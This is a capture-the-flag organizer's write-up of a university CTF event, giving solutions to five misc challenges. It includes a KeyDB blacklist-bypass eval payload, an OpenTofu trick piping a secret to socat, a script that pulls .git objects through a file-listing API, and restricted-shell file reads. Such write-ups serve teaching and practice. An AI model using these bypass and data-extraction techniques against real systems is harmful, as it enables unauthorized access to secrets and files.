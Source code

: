 ```yaml
---
title: "CyberTEK-CTF 20k24"
date: 2024-05-05
draft: false
description: "a description"
tags: ["ctf", "misc"]
---
```


### Intro;
Last weekend, we had the privilege of organizing a local CTF competition at TEKUP University. The competition featured +30 custom-authored challenges spanning diverse categories. 
The event saw an amazing turnout with 50+ teams and 140+ players joining in. The feedback was incredibly positive, with many participants enjoying the challenges and the overall experience.


### About;
  - Event place: TEKUP University. 
  - Event duration: `14hrs`.
  - Flag format: Securinets{.*}.

### Challenges;
The CTF showcased a wide variety of challenges across multiple categories, and I had the privilege to author 6 challenges for the Misc category although most of them are jail-oriented tasks. Below is a detailed breakdown of the challenges and their difficulty levels:

|   Challenge     | Points | Solves |  Author |
|-----------------|--------|--------|---------|
|   [Siclodb]()       |  500   |   1    | chxmxii |
|   [Openheimer]()    |  440   |   6    | chxmxii |
|   [bolbok]()        |  470   |   4    | chxmxii |
|   [ekko]()          |  494   |   7    | chxmxii |
|   [heimerdigger]()  |  146   |   18   | xhlayel, chxmxii |

#### Siclodb;
This challenge was a bit tricky. I blacklisted several KeyDB functions to prevent players from directly retrieving the value of the flag key. The twist was that many participants were unaware they could use eval() in the KeyDB console or leverage redis.call() as an alternative to KeyDB.call() (since keydb is a fork of redis) to bypass the restrictions. However the final payload should look like that;
```shell
$ eval "local a='du'; a=a..'mp';local b='fl';b=b..'ag'; local k=redis.call(a, b); return k;" 0
$ eval "local a='ge'; a=a..'t';local b='fl';b=b..'ag'; return cjson.encode(redis.call(a, b))" 0
```
---
#### Openheimer;
In case you're unfamiliar, OpenTofu is a community-driven fork of the popular Infrastructure-as-Code tool Terraform, created after some licensing changes caused controversy. To introduce OpenTofu to the community, I designed this challenge, which allows players to connect to an OpenTofu console.

The objective is for players to figure out how to list the OpenTofu secrets. There are several ways to solve this, and one possible solution is shown below:

```shell
nonsensitive(urlencode(var.SECRET)) | socat - TCP:localhost:13337
```
For more; 
{{< alert "link" >}}
https://opentofu.org/docs/language/functions/nonsensitive/
{{< /alert >}}

---
#### Ekko;
The challenge present two API endpoints, one for listing directories and another for reading file contents. This inspired the challenge's description, ls && cat made easy. Without diving too deep into the specifics, you can find the solution for this challenge below:
```python
from os import listdir, path
import requests, re, zlib\

url = "https://ekko.securinets-tekup.tech/"
commit_list = []
request = requests.get(url + "ls?q=...git/objects")
objects = re.findall("\w+", request.text)

if request.status_code == 200:
    for obj in objects:
        get_commit = requests.get(url + "ls?q=...git/objects/" + obj + "/")
        commits = re.findall("\w+", get_commit.text)
        for commit in commits:
            get_blob = requests.get(url + "cat?q=...git/objects/" + obj + "/" + commit)
            with open(commit + ".zlib", "wb") as f:
                f.write(get_blob.content)

for blob in listdir("."):
    with open(blob, "rb") as f:
        blob_content = f.read()
    f.close()
    try:
        decompressed_blob = zlib.decompress(blob_content)
    except zlib.error as e:
        print(f"Zlib error: {e}")
    flag = re.search("Securinets.*", str(decompressed_blob))
    if flag:
        print(flag.group())
```

---
#### Bolbok
In this challenge, players were placed in a restricted shell environment, `rbash`, with limited command options. The flag was hidden in a directory with an ambiguous name, making it tricky to locate. However, for those familiar with `ls` and `grep`, the solution was straightforward:

```shell
ls -Ra / | grep flag -B3
<path>:
.
..
.flag
```
Players had to figure out how to read its contents within the restricted shell.
```shell
echo $(< <path>/.flag)
Securinets{FLAG}
OR
while read line; do echo $line; done < <path>/.flag
Securinets{FLAG}
``` 

---
#### Heimerdigger;
dive into the docker layers and collect the deleted files.
one of the files gave us a hint about fixing the corrupted jpg file `f(byte) = (15 - byte) modulos 256`

```python
def transform_file(input_image_path, output_image_path):
    with open(input_image_path, 'rb') as input_file:
        data = input_file.read()
    modified_data = bytearray((15 - byte) % 256 for byte in data)
    with open(output_image_path, 'wb') as output_file:
        output_file.write(modified_data)
        print("Modified image saved to:", output_image_path)

# Usage
input_image_path = "./01946.jpg"
output_image_path = "./heimer.jpg"
transform_file(input_image_path, output_image_path)
``` 
---
### Das Ende;

A huge shoutout to everyone who helped make this event a success-Securitnets TEKUP, the participants, and the support from TEKUP University.
For more insights, detailed write-ups, or to access the challenge files, check out my GitHub repository:
{{< github repo="chxmxii/CyberTEK-CTF-2024" >}}